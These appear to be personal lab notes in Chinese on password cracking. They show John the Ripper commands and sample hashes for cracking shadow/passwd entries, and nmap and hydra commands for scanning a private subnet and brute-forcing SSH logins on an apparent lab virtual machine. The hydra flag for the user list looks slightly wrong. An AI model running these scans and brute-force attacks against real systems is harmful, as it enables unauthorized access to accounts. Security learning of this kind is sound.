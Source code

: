 > 有了shadow檔和passwd檔案，就可以使用這個工具破解密碼

沒有用QQ

先把密文存成一個檔案test01.txt，再使用 john -si test01.txt

```sh
M2Y5WVU4nQNK6
M2AERmE1jWn2E
M2dkTuewmYzJY
M2GMcSXbX0v6E
```



```sh
sudo apt update
sudo apt install snapd
sudo snap install john-the-ripper
john -si test01.txt  ## 簡單模式
john -w:j2.txt test01.txt  ## 字典模式
# /snap/bin/john/j2.txt
john -i test01.txt  ## 窮舉模式
john --incremental --format=md5crypt test01.txt  ## 暴力破解
```



wifi密碼破解: [黑客暴力破解必備的12大逆向工具](https://kknews.cc/zh-tw/code/22xkgag.html)





## 使用遠端破解密碼

SSH: [Gain SSH Access to Servers by Brute-Forcing](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)、[hydra破解工具](https://tw511.com/a/01/33673.html)

可以使用單人模式進行破解

但我們這裡使用`nmap`和`hydra`進行破解

nmap: 可以獲得虛擬機的資訊

hydra: 可以對帳號密碼使用暴力破解，不過需要提供字典，可以上網使用rockyou.txt

```sh
sudo apt-get install nmap  ## 安裝套件，centos 使用 yum install nmap

nmap -A 192.168.157.0/24  ## 對目前的區域網路進行掃瞄，會拿到有連線到目前區域的IP(192.168.157.128)

ssh user1@192.168.157.128  ## 需要使用者帳密
```



```sh
sudo apt install hydra  ## 安裝套件

hydra -l user.txt -P passwords.txt -t 4 192.168.157.128 ssh  ## -t代表開4個線程，比較快
```
